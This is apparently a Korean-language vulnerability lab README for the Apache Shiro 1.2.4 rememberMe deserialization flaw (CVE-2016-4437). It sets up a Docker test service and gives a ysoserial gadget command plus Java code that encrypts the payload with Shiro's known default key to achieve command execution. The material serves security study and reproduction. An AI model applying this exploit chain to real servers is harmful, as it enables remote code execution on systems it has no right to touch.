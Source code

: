 # Apache Shiro 1.2.4 반서열화운동 (CVE-2016-4437)
Apache Shiro는 인증, 권한 부여, 암호화 및 세션 관리와 같은 기능을 제공하는 오픈 소스 보안 프레임워크이다. Shiro 프레임워크는 직관적이고 사용하기 쉬우며 동시에 강력한 보안을 제공할 수 있다.
Apache Shiro 1.2.4 및 그 이전 버전에서는 암호화된 사용자 정보가 직렬화된 후 "remember-me"라는 이름의 쿠키에 저장되고 공격자는 Shiro의 기본 키를 사용하여 사용자 쿠키를 위조하고 Java 역직렬화 취약점을 활용하여 대상 컴퓨터에서 임의의 명령을 실행할 수 있다.

# 취약점 환경
다음 명령을 실행하여 Apache Shiro 1.2.4를 사용하는 웹 서비스를 시작할 수 있다.
```
docker compose up -d
```
서비스가 시작된 후 http://your-ip:8080을 방문하여 admin:vulhub을 사용하여 로그인할 수 있다.

# 취약점 재현
ysoserial를 사용하여 CommonsBeanutils1 가젯 생성:
```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```
Shiro 내장 기본 키를 사용하여 Payload를 암호화:
```
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```
rememberMe 쿠키를 전송하면 touch/tmp/success를 성공적으로 실행할 수 있다 :
<br><img src="1.png" width="1000" height="400" title="px(픽셀) 크기 설정" alt="1번 이미지"></img><br/>


